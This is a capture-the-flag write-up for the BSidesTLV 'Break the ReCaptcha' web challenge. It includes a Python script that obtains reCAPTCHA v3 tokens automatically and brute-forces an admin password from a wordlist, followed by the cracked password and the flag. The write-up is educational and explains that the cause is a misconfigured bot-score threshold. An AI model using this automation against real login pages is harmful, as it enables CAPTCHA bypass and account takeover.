


# Break the ReCaptcha
* Category: Web Application
* 500 Points
* Solved by the JCTF Team

## Description
> Dear Pentester!
> 
> I'm writing to you because don't know what to do!
> I've implemented a ReCaptcha mechanism on my website and attackers are always taking over my account!
> I'll give you a file that contains all of my possible passwords and you will be able to reproduce the vulnerability?
> 
> http://recaptcha.challenges.bsidestlv.com/
> 
> username: admin

A file with a list of passwords was attached.

## Solution

We enter the site and see the following simple login API:



Behind the scenes is a real life Google ReCaptcha.

The relevant source code is:

```html
    <script src="https://www.google.com/recaptcha/api.js?render=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt"></script>
    <script>
        // when form is submit
        $( document ).ready(function() {

            $('form').submit(function () {
                // we stoped it
                event.preventDefault();
                // needs for recaptacha ready
                grecaptcha.ready(function () {
                    // do request for recaptcha token
                    // response is promise with passed token
                    grecaptcha.execute('6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt', {action: 'create_comment'}).then(function (token) {
                        $.post("/verify", {username: $('#username').val(), password: $('#password').val(), token: token}, function (result) {
                            $("#result").html(result);
                        });
                    });
                });
            });
        });
    </script>
</head>
<body>
<div class="wrapper fadeInDown">
    <div id="formContent">

        <!-- Login Form -->
        <form>
            <input type="text" id="username" class="fadeIn second" name="username" placeholder="Username">
            <input type="password" id="password" class="fadeIn third" name="password" placeholder="Password">
            <input type="submit" class="fadeIn fourth" value="Log In">
        </form>
        <div id="result"></div>
    </div>
</div>
```


We can use the browser developer tools in order to inspect what's happening under the hood:



We have an initial call to `anchor`, then for each attempt at entering a password, a call to `reload` and `verify`.

Diving into the requests and responses, we can see that a token received from `anchor` is being passed again during `reload`, and some data from `reload` gets sent in `verify` (which belongs to the actual website and isn't part of the ReCaptcha service).

We can mimic the same behavior with the following script:

```python
import requests
import json
import re


recaptcha_regex = re.compile(r'<input type="hidden" id="recaptcha-token" value="([^"]+)">')

def try_password(password):   
    s = requests.session()

    r = s.get("https://www.google.com/recaptcha/api2/anchor?ar=1&k=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt&co=aHR0cDovL3JlY2FwdGNoYS5jaGFsbGVuZ2VzLmJzaWRlc3Rsdi5jb206ODA.&hl=en&v=v1561357937155&size=invisible")
    match = recaptcha_regex.search(r.text)
    if match is None:
        return None

    recaptcha_token = match.group(1)

    data = { "reason": "q", "c": recaptcha_token }

    r = s.post("https://www.google.com/recaptcha/api2/reload?k=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt", data = data)

    text = r.text

    #https://stackoverflow.com/questions/35348234/recaptcha-gets-invalid-json-from-call-to-https-www-google-com-recaptcha-api2-u/36862268#36862268
    prefix = ")]}'"
    if text.startswith(prefix):
        text = text[len(prefix):]
    
    json_obj = json.loads(text)

    r = s.post("http://recaptcha.challenges.bsidestlv.com/verify", data = {"username": "admin", "password": password, "token": json_obj[1]})
    return r.text

with open("passwords.txt") as f:
    for line in f:
        password = line.rstrip()
        res = try_password(password)
        if res != "Username/Password invalid!":
            print (password)
            print (res)
            break
```

After some time, the following result is returned:
```console
root@kali:/media/sf_CTFs/bsidestlv/Break_the_ReCaptcha# python3 solve.py
brandon
BSidesTLV{D0ntF0rgetT0Ch3ckTh3Sc0r3!}
```

ReCaptcha is a real-life service, so what's the vulnerability that allowed this?
Based on the flag value, we assume it's related to the "BOT Score":

> reCAPTCHA v3 returns a score (1.0 is very likely a good interaction, 0.0 is very likely a bot). Based on the score, you can take variable action in the context of your site. Every site is different [...] As reCAPTCHA v3 doesn't ever interrupt the user flow, you can first run reCAPTCHA without taking action and then decide on thresholds by looking at your traffic in the admin console. By default, you can use a threshold of 0.5. 
> 
> (Source: [Official Documentation](https://developers.google.com/recaptcha/docs/v3))

The score threshold must have been set to ~0 in order to allow us to automate this process.

